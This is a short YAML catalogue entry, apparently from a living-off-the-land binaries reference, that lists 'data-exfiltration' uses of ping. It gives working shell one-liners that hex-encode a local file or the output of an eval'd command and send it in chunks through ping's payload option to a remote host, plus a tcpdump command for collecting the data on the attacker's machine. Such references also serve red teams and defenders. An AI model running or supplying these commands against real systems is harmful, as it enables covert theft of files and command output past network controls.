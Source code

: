 ```yaml
---
functions:
  data-exfiltration:
    - description: |
        Capture ICMP packets embedded in ping requests.
        Run `sudo timeout 10 tcpdump -i any -l -n -XX 'icmp' 2>/dev/null | grep '0x0060:'` on the attacker box to collect the data.             
        ⚠️ Increase the timeout flag based on the amount of data.                             
        ⚠️ Manual parsing or reconstruction is required.  
        
        Send local file content over ICMP using hex-encoded payloads.
      code: |
        xxd -p < $LFILE$ | while read -r line; do i=0; while [ $i -lt ${#line} ];
        do chunk=${line:$i:16}; [ -z "$chunk" ] && break; padded=$(printf "%-16s" "$chunk");
        padded=${padded// /0}; ping -c 1 -p "$padded" $RHOST$; i=$((i + 16)); done; done
    - description: Send command output over ICMP using hex-encoded payloads.
      code: |
        eval "$CMD" | xxd -p | while read -r line; do i=0; while [ $i -lt ${#line} ];
        do chunk=${line:$i:16}; [ -z "$chunk" ] && break; padded=$(printf "%-16s" "$chunk");
        padded=${padded// /0}; ping -c 1 -p "$padded" $RHOST$; i=$((i + 16)); done; done
---
```

